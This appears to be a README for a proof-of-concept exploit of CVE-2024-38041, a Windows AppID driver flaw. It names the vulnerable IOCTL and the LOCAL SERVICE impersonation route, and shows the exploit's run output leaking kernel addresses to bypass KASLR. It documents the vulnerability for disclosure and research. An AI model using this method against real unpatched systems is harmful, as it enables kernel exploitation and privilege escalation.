 # CVE-2024-38041

**Title:** Windows Kernel Information Disclosure Vulnerability  
**CVE-2024-38041:** https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-38041  
**Vulnerability Type:** Exposure of Sensitive Information to an Unauthorized Actor  
**Tested On:** appid.sys - 10.0.22621.3155    

## Description

CVE-2024-38041 is a information leak vulnerability in the Windows AppID driver (`appid.sys`). The flaw lies in the handler for IOCTL code `0x22A014`, which lacks proper validation of the caller's access mode. Specifically, the `AipDeviceIoControlDispatch` function does not verify that the request originates from kernel mode. As a result, a user-mode process running as LOCAL SERVICE can trigger this IOCTL to leak kernel pointers via a shared SystemBuffer. In the patched version, a call to `ExGetPreviousMode()` ensures only kernel-mode callers can proceed, blocking this path. By impersonating the LOCAL SERVICE account and invoking the vulnerable IOCTL, an attacker can leak kernel addresses, bypassing KASLR and paving the way for further kernel exploitation.

## Exploit

Tested on: Windows 11 22H2 (01-2024 Build)

```
PS C:\Users\h4x\Desktop> .\CVE-2024-38041.exe -p 1544
[+] Trying to find Thread ID for the given process PID: 1544
[+] First Thread ID of the process: 1548
[+] Opened a THREAD_DIRECT_IMPERSONATION handle to the LOCAL_SERVICE process
[+] Opening handle to Applocker device
[+] Calling AipDeviceIoControlDispatch ....success
[+] Leaked Kernel Address:
        [*] Value0: 0xFFFFF80180C96820
        [*] Value1: 0xFFFFF80180C96888
        [*] Value2: 0xFFFFF80180C96890
        [*] Value3: 0xFFFFF80180C96898
        [*] Value4: 0xFFFFF80180C9D250
        [*] Value5: 0xFFFFF80180C9C570
```

## Acknowledgements

- It was explained by CSACyber and can be found [here](https://csacyber.com/blog/exploiting-microsoft-kernel-applocker-driver-cve-2024-38041).
- The [PoC](https://github.com/varwara/CVE-2024-38041/) was developed by Varwara, and the above PoC is based on it.
